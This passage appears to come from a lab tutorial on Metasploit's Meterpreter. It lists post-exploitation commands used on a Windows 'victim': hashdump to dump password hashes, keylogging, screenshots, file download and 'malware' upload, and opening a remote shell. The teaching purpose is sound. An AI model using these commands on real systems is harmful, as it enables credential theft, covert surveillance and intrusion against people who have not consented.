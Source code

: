    - **List processes on the victim system**:
     ```bash
     ps
     ```
   - **Dump Windows password hashes**:
     ```bash
     hashdump
     ```
   - **Capture screenshots**:
     ```bash
     screenshot
     ```
   - **Keylogging**:
     ```bash
     keyscan_start
     keyscan_dump
     ```
   - **Upload/Download files**:
     ```bash
     # go to Windows current user's Documents folder
     cd ../Documents 
     # download <file>
     # Go to Windows, and create a text file secret.txt in Documents folder first
     download secret.txt
     # upload <local_path> <remote_path>
     # e.g.: upload /home/usr/malware C://Users//Administrator//Documents
     upload malware # upload to the current remote folder, i.e. Documents
     ```
   - **Open a shell on the target system**:
     ```bash
     shell

     # exit the remote shell just opened
     exit
     ```
   - **Exit meterpreter**:
     ```bash
     exit # go back to msfconsole
     ```
- 💻 Results of all the commands above
